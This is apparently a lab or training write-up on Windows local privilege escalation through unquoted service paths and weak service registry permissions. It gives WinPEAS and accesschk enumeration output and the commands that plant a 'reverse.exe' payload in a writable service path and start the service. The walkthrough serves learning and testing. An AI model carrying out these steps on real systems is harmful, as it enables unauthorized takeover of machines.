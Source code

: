 ### Unquoted Service Path:(USP)
- For services the path needs to be in quotes, if its not enclosed like that then we can exploit that loophole and get high privilege.
```
Vulnerability Insight: 
The Windows API must assume where to find the referenced application if the path contains spaces and is not enclosed by quotation marks. If, for example, a service uses the unquoted path:

Vulnerable Service: C:\Program Files\Ignite Data\Vuln Service\file.exe

The system will read this path in the following sequence from 1 to 4 to trigger malicous.exe through a writeable directory.

C:\Program.exe
C:\Program Files\Ignite.exe
C:\Program Files\Ignite Data\Vuln.exe
C:\Program Files\Ignite Data\Vuln Service\file.exe
```
- To get more information just use **WinPEAS** script with option `servicesinfo`, here we can see info if we can exploit any **Unquoted Service Path**, Here I ran the tool and the interesting part of output is like this,
```
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected  
```
- The output here clearly specifies that **No quotes and Space Detected** so we can conclude that we can exploit this particular service using **USP**
- And to gather more information regarding service use `sc qc <service>`
- Now let's check the permission for this particular location `C:\Program Files\Unquoted Path Service` using `accesschk`, so run `accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"`. Output:
```
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```
- We have read and write permission.
- Now we'll create a payload and paste it in `C:\Program Files\Unquoted Path Service`, thru `copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`, here I'm naming with a different name which has some advantage with alphabetical order as well.
- Now start the service, `sc start unquotedsvc`, we're admin!!!

### Weak Registry Permissions:
- Here we'll try to exploit services with weak registry permissions.
- to look for we need to make use of `Winpeas` with `servicesinfo` option. The output looks similar to this
```
����������͹ Looking if you can modify any service registry
� Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions                                                                                          
    HKLM\system\currentcontrolset\services\regsvc (Interactive [FullControl])

```
- No we go the name of service which is `regsvc`, so lets dig deep about this service, so run `sc qc regsvc` and the output is,
```
sc qc regsvc
[SC] QueryServiceConfig SUCCESS
```